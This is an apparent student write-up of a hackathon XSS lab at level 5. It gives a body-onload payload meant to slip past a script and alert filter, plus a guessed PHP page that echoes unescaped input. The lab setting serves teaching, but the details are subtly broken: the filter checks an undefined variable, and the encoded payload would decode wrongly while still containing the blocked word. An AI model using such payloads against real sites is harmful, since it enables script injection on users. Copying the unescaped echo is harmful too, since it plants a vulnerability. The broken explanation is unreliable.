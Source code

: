 ![Level 4 ](images/level4.png)

Level 5

URL : [http://waph-hackathon.eastus.cloudapp.azure.com/xss/level5/echo.php](URL : http://waph-hackathon.eastus.cloudapp.azure.com/xss/level5/echo.php)

Enhancing security measures in level 5 involved encoding the `<body>` tag with the `onload()` function. This tactic bypasses direct filters on `<script>` and `alert()` functions, allowing for the indirect execution of JavaScript code. Utilizing Unicode encoding ensures proper interpretation of characters as JavaScript code by the browser, enabling the desired functionality of triggering a popup alert.

```
input=<body onload="\u0061alert('Level 5 - Hacked by Vikhyath Reddy Bheemreddy')">This website is hacked</body>
```

Possible Source Code:
```
	$input = $_GET['input']
	if (preg_match('/<script\b[^>]*>(.*?)<\/script>/is', $data) || stripos($data, 'alert') !== false) 
	{ 
		exit('{"error": "No \'script\' is allowed!"}');
	}
	else 
		echo($input);
```
